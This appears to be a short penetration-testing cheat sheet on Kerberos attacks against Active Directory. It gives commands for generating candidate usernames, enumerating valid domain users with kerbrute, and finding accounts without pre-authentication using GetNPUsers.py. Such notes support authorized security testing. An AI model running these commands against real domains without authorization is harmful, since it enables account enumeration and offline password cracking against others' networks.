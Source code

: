 # Kerberos

#### Enumerate Users

_Compile usernames_

```
/opt/username-anarchy/username-anarchy --input-file ./test-names.txt
```

_Find valid users_

{% code overflow="wrap" %}
```
kerbrute userenum /usr/share/wordlists/seclists/Usernames/Names/names.txt -d $domain --dc $ip
```
{% endcode %}

#### Test for UF DONT REQUIRE PREAUTH

{% code overflow="wrap" %}
```
GetNPUsers.py $domain/ -no-pass -usersfile /path/to/names.txt -dc-ip $ip
```
{% endcode %}
